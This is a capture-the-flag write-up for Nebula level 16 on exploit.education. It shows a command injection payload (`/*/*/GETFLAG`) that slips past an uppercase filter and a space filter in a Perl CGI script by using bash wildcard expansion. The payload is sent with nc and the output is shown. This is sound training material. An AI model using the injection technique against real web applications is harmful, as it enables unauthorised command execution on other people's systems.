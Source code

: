 # Nebula - [LEVEL 16](https://exploit.education/nebula/level-16/)

Level Description:

![level.JPG](images/level.JPG)


# Nebula - [LEVEL 16](https://exploit.education/nebula/level-16/) - Solution

By observing the code we can see the line which allows us to inject our command:
```perl
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

No lowercase letters are allowed (converted to uppercase letters) and no spaces are allowed (everything after a space will be stripped away).

We can bypass the restrictions by sending ``` `/*/*/GETFLAG` ``` - This makes use of bash's wildcard expansion feature to run the ```GETFLAG``` file.

Let's send the payload using ```nc``:
```console
level16@nebula:/tmp/level16$ nc localhost 1616
GET /index.cgi?username=`/*/*/GETFLAG`
Content-type: text/html

<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
level16@nebula:/tmp/level16$ ls -ltr /tmp/gf16
-rw-r--r-- 1 flag16 flag16 59 2022-01-13 22:44 /tmp/gf16
level16@nebula:/tmp/level16$ cat /tmp/gf16
You have successfully executed getflag on a target account

```